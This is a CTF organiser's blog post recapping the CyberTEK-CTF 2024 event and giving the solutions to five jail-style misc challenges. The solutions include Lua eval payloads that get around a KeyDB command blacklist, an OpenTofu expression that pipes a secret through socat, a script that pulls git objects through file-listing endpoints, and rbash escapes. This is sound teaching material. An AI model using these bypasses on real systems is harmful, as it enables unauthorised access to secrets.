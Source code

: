 ```yaml
---
title: "CyberTEK-CTF 20k24"
date: 2024-05-05
draft: false
description: "a description"
tags: ["ctf", "misc"]
---
```


### Intro;
Last weekend, we had the privilege of organizing a local CTF competition at TEKUP University. The competition featured +30 custom-authored challenges spanning diverse categories. 
The event saw an amazing turnout with 50+ teams and 140+ players joining in. The feedback was incredibly positive, with many participants enjoying the challenges and the overall experience.


### About;
  - Event place: TEKUP University. 
  - Event duration: `14hrs`.
  - Flag format: Securinets{.*}.

### Challenges;
The CTF showcased a wide variety of challenges across multiple categories, and I had the privilege to author 6 challenges for the Misc category although most of them are jail-oriented tasks. Below is a detailed breakdown of the challenges and their difficulty levels:

|   Challenge     | Points | Solves |  Author |
|-----------------|--------|--------|---------|
|   [Siclodb]()       |  500   |   1    | chxmxii |
|   [Openheimer]()    |  440   |   6    | chxmxii |
|   [bolbok]()        |  470   |   4    | chxmxii |
|   [ekko]()          |  494   |   7    | chxmxii |
|   [heimerdigger]()  |  146   |   18   | xhlayel, chxmxii |

#### Siclodb;
This challenge was a bit tricky. I blacklisted several KeyDB functions to prevent players from directly retrieving the value of the flag key. The twist was that many participants were unaware they could use eval() in the KeyDB console or leverage redis.call() as an alternative to KeyDB.call() (since keydb is a fork of redis) to bypass the restrictions. However the final payload should look like that;
```shell
$ eval "local a='du'; a=a..'mp';local b='fl';b=b..'ag'; local k=redis.call(a, b); return k;" 0
$ eval "local a='ge'; a=a..'t';local b='fl';b=b..'ag'; return cjson.encode(redis.call(a, b))" 0
```
---
#### Openheimer;
In case you're unfamiliar, OpenTofu is a community-driven fork of the popular Infrastructure-as-Code tool Terraform, created after some licensing changes caused controversy. To introduce OpenTofu to the community, I designed this challenge, which allows players to connect to an OpenTofu console.

The objective is for players to figure out how to list the OpenTofu secrets. There are several ways to solve this, and one possible solution is shown below:

```shell
nonsensitive(urlencode(var.SECRET)) | socat - TCP:localhost:13337
```
For more; 
{{< alert "link" >}}
https://opentofu.org/docs/language/functions/nonsensitive/
{{< /alert >}}

---
#### Ekko;
The challenge present two API endpoints, one for listing directories and another for reading file contents. This inspired the challenge's description, ls && cat made easy. Without diving too deep into the specifics, you can find the solution for this challenge below:
```python
from os import listdir, path
import requests, re, zlib\

url = "https://ekko.securinets-tekup.tech/"
commit_list = []
request = requests.get(url + "ls?q=...git/objects")
objects = re.findall("\w+", request.text)

if request.status_code == 200:
    for obj in objects:
        get_commit = requests.get(url + "ls?q=...git/objects/" + obj + "/")
        commits = re.findall("\w+", get_commit.text)
        for commit in commits:
            get_blob = requests.get(url + "cat?q=...git/objects/" + obj + "/" + commit)
            with open(commit + ".zlib", "wb") as f:
                f.write(get_blob.content)

for blob in listdir("."):
    with open(blob, "rb") as f:
        blob_content = f.read()
    f.close()
    try:
        decompressed_blob = zlib.decompress(blob_content)
    except zlib.error as e:
        print(f"Zlib error: {e}")
    flag = re.search("Securinets.*", str(decompressed_blob))
    if flag:
        print(flag.group())
```

---
#### Bolbok
In this challenge, players were placed in a restricted shell environment, `rbash`, with limited command options. The flag was hidden in a directory with an ambiguous name, making it tricky to locate. However, for those familiar with `ls` and `grep`, the solution was straightforward:

```shell
ls -Ra / | grep flag -B3
<path>:
.
..
.flag
```
Players had to figure out how to read its contents within the restricted shell.
```shell
echo $(< <path>/.flag)
Securinets{FLAG}
OR
while read line; do echo $line; done < <path>/.flag
Securinets{FLAG}
``` 

---
#### Heimerdigger;
dive into the docker layers and collect the deleted files.
one of the files gave us a hint about fixing the corrupted jpg file `f(byte) = (15 - byte) modulos 256`

```python
def transform_file(input_image_path, output_image_path):
    with open(input_image_path, 'rb') as input_file:
        data = input_file.read()
    modified_data = bytearray((15 - byte) % 256 for byte in data)
    with open(output_image_path, 'wb') as output_file:
        output_file.write(modified_data)
        print("Modified image saved to:", output_image_path)

# Usage
input_image_path = "./01946.jpg"
output_image_path = "./heimer.jpg"
transform_file(input_image_path, output_image_path)
``` 
---
### Das Ende;

A huge shoutout to everyone who helped make this event a success-Securitnets TEKUP, the participants, and the support from TEKUP University.
For more insights, detailed write-ups, or to access the challenge files, check out my GitHub repository: (hidden)